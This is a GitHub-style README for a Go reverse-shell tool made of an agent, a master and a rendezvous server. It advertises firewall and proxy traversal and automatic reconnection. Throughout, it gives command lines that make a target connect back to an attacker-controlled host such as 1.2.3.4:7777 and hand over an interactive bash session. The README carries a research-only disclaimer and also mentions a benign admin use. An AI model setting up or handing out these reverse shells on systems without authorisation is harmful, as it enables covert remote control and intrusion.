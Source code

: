 ## A simple reverse-shell written in Go

[![Build Status](https://travis-ci.org/maxlaverse/reverse-shell.svg?branch=master)](https://travis-ci.org/maxlaverse/reverse-shell)

**Disclaimer: This project is for research purposes only, and should only be used on authorized systems.**

---

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

A reverse shell is also really useful when you're playing with your SSH server and want to have a backup plan
in case of misconfiguration.

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `master` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and masters meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/maxlaverse/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Agent
```bash
Starts an agent listening for remote commands. The Agent can receive remote commands is various ways.

Usage:
  reverse-shell-agent [command]

Available Commands:
  help        Help about any command
  stdin       Agent that listens for command on stdin
  tcp         Agent that connects to a remove tcp endpoints and listen for commands
  tcpdirect   Agent that listens for commands on a local port
  websocket   Agent that connects to a websocket endpoints and wait for commands

Flags:
  -h, --help          help for reverse-shell-agent
  -v, --verbose int   Be verbose on log output

Use "reverse-shell-agent [command] --help" for more information about a command.
```

### stdin
Absolutely useless. It's basically just piping *stdin* to a process on the same machine.
```bash
Usage:
  agent [OPTIONS] stdin
```

### tcp
Connect to a remote host and execute every command received from it.
```bash
Usage:
  agent [OPTIONS] tcp [tcp-OPTIONS]

[tcp command options]
      -A, --address= Address [$ADDRESS]
```

Use the `listen` master command on a remote host to wait for connection:
```bash
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ agent tcp -A 1.2.3.4:7777
```

### tcpdirect
Listen to a tcp port and execute every command received by a master.
```bash
Usage:
  agent [OPTIONS] tcpdirect [tcp-OPTIONS]

  [tcpdirect command options]
        -P, --port= Port [$PORT]
```

You can connect to it using netcat:
```bash
# On the agent (1.2.3.4)
$ agent tcpdirect -P 7777

# On the master
$ nc 1.2.3.4 7777
```

### websocket
Connect to a remote websocket and execute every command received.
The remote host can be a `master` or a `rendezvous`.
```bash
Usage:
  agent [OPTIONS] websocket [websocket-OPTIONS]

[websocket command options]
      -U, --url=  Url of the rendez-vous point. [$URL]
```

```bash
# On the master (1.2.3.4)
$ master listen -P 7777

# On the agent
$ agent websocket -U http://1.2.3.4:7777
```

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a `rendezvous` point instead of a master.

You can also connect to the outside using a proxy:
```bash
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777
```

## Rendez-vous
The `rendezvous` is an http server listening for `agents` and `masters`.
It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```bash
Usage:
  rendezvous [OPTIONS]

Application Options:
  -P, --port= Port [$PORT]
```

Start the `rendezvous` and the `agent`:
```bash
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777
```

Open a shell and send some commands
```bash
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$
```

# Master
```bash
Usage:
  master [OPTIONS] <command>

Help Options:
  -h, --help  Show this help message

Available commands:
  attach         attach to an existing session
  create         create a new session on a given agent
  list-agents    list all the agents available on a rendez-vous
  list-sessions  list all the sessions available on a rendez-vous
  listen         listen for agents to connect using websocket
```

## Todo
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one
